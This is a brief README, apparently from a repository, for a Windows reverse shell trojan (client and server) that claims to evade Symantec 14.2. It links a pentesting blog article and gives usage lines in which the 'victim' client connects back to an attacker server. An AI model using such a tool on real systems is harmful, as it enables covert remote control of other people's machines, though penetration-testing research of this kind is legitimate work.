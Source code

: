 # Windows reverse shell

Windows reverse shell source code (client and server) that bypassed all security features of Symantec 14.2

Related article is https://pentester.blog/?p=418

Usage :

On Server : MyTrojanServer.exe [TCP port]

On client (victim) : MyTrojanClient.exe [Server IP] [Server port]

